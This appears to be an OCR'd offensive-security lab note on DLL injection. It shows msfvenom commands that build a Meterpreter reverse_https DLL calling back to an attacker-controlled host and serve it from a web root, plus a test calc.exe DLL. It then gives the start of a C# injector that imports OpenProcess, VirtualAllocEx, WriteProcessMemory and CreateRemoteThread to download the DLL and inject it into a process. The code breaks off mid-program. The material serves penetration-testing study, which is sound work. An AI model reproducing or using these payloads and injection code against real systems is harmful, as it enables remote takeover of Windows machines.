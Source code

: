 ```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https
LHOST=192.168.119.120 LPORT=443 -f dll -o /var/www/html/met.dll


└─$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=4444 EXIT_FUNC=THREAD -f dll -o /var/www/html/met.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 652 bytes
Final size of dll file: 8704 bytes
Saved as: /var/www/html/met.dll

```

We will create a chash program that will fetch dll from attackers server. and then we wll write the DLL to disk since LoadLibrary only accepts files present on disk.

NOt able to inject into notepad

able to inject calc-

```
└─# msfvenom -p windows/x64/exec CMD=calc.exe -f dll -o /var/www/html/calc.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
Final size of dll file: 8704 bytes
Saved as: /var/www/html/calc.dll

```

```C#
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
namespace download_dll
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
       processId);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
       dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
       byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
       lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
       dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true,
       SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);
        static void Main(string[] args)
        {
            String dir =
           Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
            String dllName = dir + "\\met.dll";
            WebClient wc = new WebClient();
```